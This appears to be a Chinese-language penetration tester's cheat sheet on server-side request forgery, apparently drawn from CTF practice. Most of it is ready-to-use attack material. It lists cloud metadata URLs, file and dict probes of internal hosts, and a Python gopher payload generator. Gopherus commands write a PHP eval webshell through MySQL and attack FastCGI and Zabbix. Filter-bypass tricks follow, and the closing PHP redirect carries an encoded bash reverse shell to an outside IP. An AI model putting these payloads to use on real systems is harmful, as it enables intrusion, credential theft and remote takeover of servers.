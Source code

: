 ## **SSRF存在场景：**
```
各种输入发消息框
发送网址内容的消息服务端会自动请求(如抖音消息，钉钉消息，知乎发帖，QQ卡片消息等，可用DNSlog验证)
全网页翻译的输入框
在线识图输入图片网址的输入框
在线解析url的输入框
在线获取网站信息的输入框
webhook的接口参数可控
```
^
## **测试有回显的SSRF的探测协议：**
http:
```    
验证，请求一个查看本地ip的网站，查询出口ip    
验证，请求127.0.0.1

对于云服务器还可以访问元数据服务。
元数据服务是一种提供实例相关配置信息的服务，它允许在实例内部访问实例的属性信息，如实例ID、VPC信息、网卡信息等
阿里云
http://100.100.100.200/latest/meta-data/
腾讯云
http://metadata.tencentyun.com/latest/meta-data/
华为云
http://169.254.169.254/
http://169.254.169.254/latest/meta-data/instance-id
```




file:
```
    访问本地文件，file:///etc/hosts 查看本机内网ip
    高权限访问本地文件，file:///proc/net/arp  查看当前的内网的网关为：`172.73.23.1 `，
    而且可以直接发现内网中的另一个 IP 资产为：如`172.73.23.100`
```

伪协议
```
file:/// 从文件系统中获取文件内容，如，file:///etc/passwd
dict:// 字典服务器协议，访问字典资源，如，dict:///ip:6739/info
sftp:// SSH文件传输协议或安全文件传输协议
gopher:// 分布式、文档传递服务，可使用gopherus生成payload
sftp:// SSH文件传输协议或安全文件传输协议
ldap:// 轻量级目录访问协议
tftp:// 简单文件传输协议
```

dict: <https://zhuanlan.zhihu.com/p/115222529>
```
    字典服务器协议，基于查询响应的TCP协议
    dict://172.72.23.23:3306  可探测是否有服务的响应
    dict://172.72.23.27:6379 用dict命令操作redis
                dict://172.72.23.27:6379/set x 2333
                dict://172.72.23.27:6379/info
使用编程的请求函数可以请求，或curl dict://192.168.66.33:6379/info
```
ftp:
```
```
gopher：
```
dict协议的需要一条一条的执行，而gopher协议可以整合执行一条命令就行

并可携带请求包发起get,post请求。dict只能get。

工具gopherus，可以直接计划任务反弹和phpshell。

curl可以走gopher协议
curl gopher://172.2.239.5:9000/_%01%01



手工打gopher流程：
使用脚本生成payload
import urllib.parse

host = "127.0.0.1:80"
content = "uname=admin&passwd=admin"
content_length = len(content)

test =\
"""POST /index.php HTTP/1.1
Host: {}
User-Agent: curl/7.43.0
Accept: */*
Content-Type: application/x-www-form-urlencoded
Content-Length: {}

{}
""".format(host,content_length,content)
# 按照标准，URL只允许一部分ASCII字符，其他字符（如汉字）是不符合标准的，此时就要进行编码。
# 因为我在构造URL的过程中要使用到中文：此时需要用到urllib.parse.quote，此处是为了替换特殊字符\
tmp = urllib.parse.quote(test)
new = tmp.replace("%0A","%0D%0A")
result = urllib.parse.quote(new)
print("gopher://"+host+"/_"+result)

下面是GET:
import urllib
test =\
"""GET /ssrf/get.php HTTP/1.1
Host: 192.168.0.111
"""  
#注意后面一定要有回车，回车结尾表示http请求结束
tmp = urllib.parse.quote(test)
new = tmp.replace('%0A','%0D%0A')
result = '_'+new
print(result)
```




^
## **测试SSRF:**
```
用bp跑内网段:
172.72.23.$21$:$80$
dict://172.72.23.$21$:$80$

扫内网站点的目录，扫网站指纹

扫到资产，通过SSRF的入口进行内网攻击：
手工使用入口需进行一次URL编码
BP中使用入口需进行双编码

入口的请求是POST请求使用gopher协议携带POST请求包
```

利用ssrf操作内网redis写入计划任务反弹shell：<https://blog.csdn.net/qq_63844103/article/details/126896955>
利用ssrf操作内网：
<https://www.sqlsec.com/2021/05/ssrf.html>

使用gopherus.py对无密码mysql执行sql语句：
```
python2 gopherus.py --exploit mysql
root
select "<?php eval($POST(1);?>" into outfile "/var/www/html/1.php";
```
![](.topwrite/assets/image_1733842266820.png)
使用gopherus.py对9000端口的FastCGI执行命令：
```
1、PHP版本要高于5.3.3，才能动态修改PHP.INI配置文件
2、知道题目环境中的一个PHP文件的绝对路径
3、PHP-FPM监听在本机9000端口
4、libcurl版本>=7.45.0
```
![](.topwrite/assets/image_1733892617872.png)

对10050的zabbix，命令执行。
```
gopherus --exploit zabbix
```



有ssrf但是有防御绕过：
**dns 重绑定**
https\://xz.aliyun.com/t/7495?time\_\_1311=n4%2BxnD0Dy7GQ3AKeD5DsA3rcC%3D%2FjO4boTD

^
## **SSRF绕过**

跳转型
```
https://33129999.xyz@baidu.com

已知要符合正则
if(preg_match('/^http:\/\/ctf\..*show$/i',$x)){
    echo file_get_contents($url);
}

要符合http://ctf开头，show结尾，则
http://ctf.@127.0.0.1/flag.php?show
```
^
姿势1：

```
http://127.1:80
http://127.1:80/flag.php
http://0/flag.php
http://127.255.255.254/flag.php
```

姿势2：将点分十进制表示的IP转化为十进制IP地址绕过

```
http://2130706433/ = http://127.0.0.1
http://3232235521/ = http://192.168.0.1
http://3232235777/ = http://192.168.1.1
http://2852039166/  = http://169.254.169.254
```

姿势3：利用DNS解析
```
http://customer1.app.my.company.127.0.0.1.nip.io = 127.0.0.1
```

<https://mp.weixin.qq.com/s/r6wOTmzcduWi_6v6ujVBwg>

^
#### **302型**
ssrf要求访问的ip是127.0.0.1
自己部署一个php，程序302到内网的服务，并携带参数，这里是命令执行参数。
```
<?php  
header('Location: http://127.0.0.1/flag.php?cmd=%62%61%73%68%20%2d%63%20%22%62%61%73%68%20%2d%69%20%3e%26%20%2f%64%65%76%2f%74%63%70%2f%31%31%36%2e%36%32%2e%33%38%2e%37%31%2f%39%39%39%39%20%30%3e%26%31%22', true, 302);  
exit();
```